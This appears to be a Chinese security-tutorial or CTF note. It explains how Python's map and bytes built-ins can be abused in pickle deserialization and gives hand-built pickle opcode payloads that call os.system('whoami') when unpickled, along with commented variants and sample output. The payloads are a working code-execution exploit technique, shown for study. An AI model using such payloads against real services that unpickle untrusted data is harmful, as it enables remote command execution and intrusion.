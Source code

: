 **原理：python内置函数**

`map`(*function*, *iterable*, *...*)

返回一个**将 *function* 应用于 *iterable* 中每一项并输出其结果的迭代器**。 如果传入了额外的 *iterable* 参数，*function* 必须接受相同个数的实参并被应用于从所有可迭代对象中并行获取的项。 当有多个可迭代对象时，最短的可迭代对象耗尽则整个迭代就将结束。

*class* `bytes`(\[*source*\[, *encoding*\[, *errors*\]\]\])

返回一个新的“bytes”对象， 是一个不可变序列，包含范围为 `0 &lt;= x &lt; 256` 的整数。[`bytes`](stdtypes.html#bytes) 是 [`bytearray`](stdtypes.html#bytearray) 的不可变版本 - 它有其中不改变序列的方法和相同的索引、切片操作。

`cls.__new__(cls,arg*)`等价于 `cls(arg*)`

构造的payload

```python
#bytes.__new__(bytes,map.__new__(map,os.system,['whoami']))
#或者
#bytes.__new__(bytes,map.__new__(map,os.system,('whoami',)))
#或者
#bytes.__new__(bytes,map.__new__(map,os.system,{'whoami',}))
#laptop-j0acdp41\jackbin
payload=b'''c__builtin__
map
p0
0(S'whoami'
tp1
0(cos
system
g1
tp2
0g0
g2
\x81p3
0c__builtin__
bytes
p4
(g3
t\x81.'''

payload=b'''cbuiltins
map
p0
0(S'whoami'
tp1
0(cos
system
g1
tp2
0g0
g2
\x81p3
0cbuiltins
bytes
p4
(g3
t\x81.'''
```
